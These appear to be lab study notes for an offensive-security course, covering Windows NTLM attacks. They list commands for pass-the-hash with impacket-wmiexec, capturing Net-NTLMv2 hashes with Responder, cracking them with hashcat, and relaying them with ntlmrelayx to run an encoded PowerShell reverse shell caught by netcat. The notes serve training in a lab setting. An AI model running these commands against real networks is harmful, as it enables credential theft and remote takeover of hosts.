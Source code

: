 ```Shell
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```
### 15.3.3. Cracking Net-NTLMv2
#### Starting Responder on interface tun0
```Shell
responder -I tun0
```
#### Netcat into Windows Host
```Shell
nc 192.168.245.211 4444
```
#### Attempt to access share (tun0 IP addr) and intercept hash on Responder
```Shell
dir \\192.168.45.155\test
```
#### After capturing hash, identify hash mode for NTLMv2
```Shell
hashcat --help | grep -i "ntlm"
```
#### Cracking the Net-NTLMv2 hash of paul
```Shell
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
#### VM 2 Instructions: 
- Enumerate VM #2 and find a way to obtain a Net-NTLMv2 hash via the web application. **Important: Add marketingwk01 to your /etc/hosts file with the corresponding IP address of the machine.** After you have obtained the Net-NTLMv2 hash, crack it, and connect to the system to find the flag.
#### Upload file, send to Repeater and modify `filename=` field
![[reponder through web app.png]]
### 15.3.4. Relaying Net-NTLMv2
#### Starting ntlmrelayx for a Relay-attack targeting FILES02
```Shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
Includes base64 encoded powershell rev shell
***May need to update httpcore and h11***
```Shell
pip install --upgrade httpcore
pip install --upgrade h11
```
#### Start a netcat listener
```Shell
nc -lnvp 8080
```
#### Log into the target w/ nc
```Shell
nc 192.168.50.211 5555
```
#### Use the dir command to create an SMB connection to Kali
```cmd
dir \\192.168.119.2\test
```
#### Netcat listener should have caught reverse shell
